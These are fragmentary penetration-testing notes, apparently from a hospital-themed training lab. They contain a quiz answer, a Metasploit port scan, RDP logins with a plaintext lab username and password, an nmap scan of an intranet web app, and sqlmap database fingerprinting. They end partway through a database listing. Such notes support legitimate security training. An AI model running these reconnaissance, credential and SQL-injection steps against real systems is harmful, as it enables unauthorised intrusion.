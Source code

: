 > What type of attack that allows privilege escalation is the FTP server vulnerable to?

`DLL Hijacking`

use auxiliary/scanner/portscan/syn

```bash
msf auxiliary(scanner/portscan/syn) > run

[+]  TCP OPEN 10.102xxxxx:3389
[+]  TCP OPEN 10.102xxxxx:5985
```

additional <https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp>

<https://www.kali.org/tools/rdesktop/>

```bash
rdesktop -u <username> <IP>

rdesktop -u douglas 10.102.10.50

Subject: CN=test-pc.armsdon.hospital.local
     Issuer: CN=test-pc.armsdon.hospital.local

rdesktop -d <domain> -u <username> -p <password> <IP>

rdesktop -d armsdon.hospital.local -u douglas -p '1m1ghtbwrong?' 10.102.10.50


```

---

## intranet

```bash
nmap -sS -sC -sV 10.Xxxxx
Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-15 19:46 UTC                                                                     
Nmap scan report for ip-10-102-9-67.eu-west-1.compute.internal (10.XXXXX)
Host is up (0.000077s latency).                                                                                                            
Not shown: 999 closed ports                                                                                                                
PORT   STATE SERVICE VERSION                                                                                                                     
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: QualityCare
|_Requested resource was http://ip-10-XXXXXXXXXX.eu-west-1.compute.internal/login

```

```bash
sqlmap exploit

sqlmap --help

sqlmap -u ${URL} --batch --banner

back-end DBMS is MySQL
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '10.1.44-MariaDB-0ubuntu0.18.04.1'

available databases [4]:
[*] information_schema
```